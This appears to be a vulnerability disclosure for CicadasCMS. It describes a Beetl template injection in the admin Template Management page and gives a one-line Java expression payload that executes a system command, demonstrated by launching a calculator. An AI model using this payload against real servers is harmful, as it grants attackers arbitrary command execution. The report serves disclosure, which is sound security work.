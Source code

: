 Project Address:  [https://gitee.com/westboy/CicadasCMS](https://gitee.com/westboy/CicadasCMS)

<h3 id="s8G7H"> There is a Server-Side Template Injection vulnerability that leads to command execution.  </h3>
beetl Template vulnerability.

 Click on "System Management," then click on "Template Management," select a template (here it is index.html), and then input the following payload.  

```java
a href="${@Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("").eval("java.lang.Runtime.getRuntime().exec(calc);")}"></a>
```

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1739344692374-bcfbe9a1-d5fd-4c5c-9536-1f1c234bb9f8.png) Access `localhost:8081/index.html`。 The page will pop up a **calculator**, resulting in command execution.  

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1739344716760-581c9a9b-ea20-4cd8-90cf-301e8eebc9df.png)








